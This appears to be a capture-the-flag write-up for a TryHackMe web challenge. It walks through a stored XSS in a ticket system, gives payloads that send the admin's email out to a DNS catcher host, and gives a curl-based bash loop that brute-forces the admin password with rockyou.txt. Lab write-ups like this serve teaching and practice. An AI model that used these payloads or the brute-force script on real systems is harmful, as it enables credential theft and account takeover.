

# That's The Ticket

## Information

* Category: Web Exploitation
* Difficulty: **Medium**

### Challenge

We are given an IP address. Let's first scan it with `nmap` to see what ports are open.


We can see that port 80 is open. Let's visit the website.


This is some kind of ticket management system. Let's try to register an account.


And we are in. There is a form for us to submit and create a ticket with a message. Let's try to submit a ticket.


We can see that the ticket is created. Let's try to submit a ticket with a message that contains a script tag.


Nothing happens... yet. This seems to be in a `<textarea>` tag. Let's try to close the tag and see if it works.



We can see that the script tag is executed. This is a **stored XSS** vulnerability. Let's try to create a ticket that request back to our server. We are using the DNS requests catcher that TryHackMe provides. This would be our payload:

```html
</textarea><script>var i = new Image(); i.src="//<THM_DNS_CATCHER_SESSION>/"; </script>
```


There were several requests made to our server as we created the ticket, some of which seem to be made by the admin. We can see that the payload is working. Let's try to create a ticket that will steal the admin's email. All we need to do is to add the email to end of our script.

```html
</textarea><script>var i = new Image(); i.src="//" + document.getElementById('email').innerHTML + ".<THM_DNS_CATCHER_SESSION>/="; </script>
```


Sounds like there is something wrong with our payload. This could due to special characters in the email that causes the request to escape. The special characters should be `@` and `.`. Let's try to change them into something else.

```html
</textarea>
<script>
var email = document.getElementById('email').innerHTML;
email = email.replace('@', 'AT').replace('.', 'DOT');
var i = new Image();
i.src="//" + email + ".<THM_DNS_CATCHER_SESSION>/";
</script>
```


And there it is! We got the admin's email. Let's try to login with the admin's email. Since we don't have the password, we might want to try to brute force it. First, we need to use `Burp Suite` to intercept the `POST` request when we try to login.


Now let's try cracking the password using `curl` and the `rockyou.txt` wordlist.

```bash
cnt=0

while IFS= read -r line; do
    response=$(curl -s -o /dev/null -w "%{http_code}" -X POST -d "email=adminaccount@itsupport.thm&password=$line" http://10.10.167.70/login)
    if [ "$response" -ne 401 ]; then
        echo "Password found: $line"
        break
    fi
    cnt=$((cnt + 1))
    if (( cnt % 10000 == 0 )); then
        echo "Tried $cnt lines..."
    fi
done < /usr/share/wordlists/rockyou.txt
```


We got the password! Let's login with the admin's email and password.


There is a ticket with ID `1` which was not created by us. Let's try to view the ticket.


And we found the flag!